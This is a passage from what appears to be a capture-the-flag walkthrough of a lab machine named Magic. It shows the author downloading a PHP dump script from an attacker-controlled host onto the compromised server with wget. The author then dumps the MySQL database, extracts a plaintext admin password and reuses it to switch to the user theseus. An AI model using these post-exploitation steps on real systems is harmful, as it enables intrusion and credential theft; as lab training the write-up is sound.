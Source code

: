 ## Dumping SQL Database

With the databse credentials, let's dump the database for further enumeration.

[The php script here](https://gist.github.com/micc83/fe6b5609b3a280e5516e2a3e9f633675) offers a simple way to dump the database as the mysql client is not available on the host.

Replace the fields with the database credentials we gathered, and upload it.

```
www-data@ubuntu:/tmp$ wget http://10.10.14.7:8000/dbdump.php
<SNIP>
dbdump.php          100%[===================>]     430  --.-KB/s    in 0s      

2020-04-22 00:29:28 (70.2 MB/s) - 'dbdump.php' saved [430/430]
```

Then, let's run it with the command below.

`php dbdump.php`

Finally, we can view its output.

`cat dump.sql`

```
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version	5.7.29-0ubuntu0.18.04.1
<SNIP>
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
<SNIP>
```

We found another set of credentials.

* username: admin
* password: Th3s3usW4sK1ng

While they are credentials for the Magic website, the password could have been **reused**.

In this case, it is also theseus' account password. We can switch to his account with the command below.

`su theseus`

## Enumerating Group Files

Basic enumeration reveals that theseus belong to the `users` group.

```
$ id
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
```

We can look for files belonging to the `users` group.

